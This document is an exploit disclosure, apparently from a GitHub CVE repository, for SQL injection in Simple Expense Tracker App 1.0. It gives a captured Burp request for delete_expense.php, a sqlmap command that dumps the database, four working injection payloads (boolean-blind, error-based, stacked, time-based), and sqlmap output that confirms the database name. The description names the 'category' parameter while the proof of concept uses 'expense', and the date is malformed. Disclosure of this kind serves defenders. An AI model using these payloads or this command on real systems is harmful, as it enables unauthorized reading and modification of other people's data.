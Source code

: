 # Simple Expense Tracker - SQL Injection-1
+ **Exploit Title:** Simple Expense Tracker - SQL Injection-1
+ **Date:** 2024-22-01
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/16794/simple-expense-tracker-app-using-php-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=16794&title=Expense+Tracker+App+Using+PHP+with+Source+Code
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
 Simple Expense Tracker App 1.0 allows SQL Injection via the 'category' parameter in "http://localhost/simple-expense-tracker-app/endpoint/delete_expense.php?expense=1". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/simple-expense-tracker-app/"
+ Select any expense and press the delete-expense button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /simple-expense-tracker-app/endpoint/delete_expense.php?expense=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'expense' parameter to dump the database.
```
sqlmap -r r.txt -p expense --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
Parameter: expense (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: expense=1' RLIKE (SELECT (CASE WHEN (8149=8149) THEN 1 ELSE 0x28 END))-- YCuy

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: expense=1' AND EXTRACTVALUE(1814,CONCAT(0x5c,0x71706a6b71,(SELECT (ELT(1814=1814,1))),0x7178766b71))-- OXWI

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: expense=1';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: expense=1' AND (SELECT 4006 FROM (SELECT(SLEEP(5)))hjyB)-- NQYA
---
[18:46:49] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[18:46:49] [INFO] fetching current database
[18:46:49] [INFO] retrieved: 'expense_tracker_db'
current database: 'expense_tracker_db'
```
+ current database: `expense_tracker_db`

![Ekran görüntüsü 2024-01-30 025239](https://github.com/BurakSevben/CVEs/assets/117217689/c9f6f289-d414-4b75-a4fb-ee4c9176c9e6)



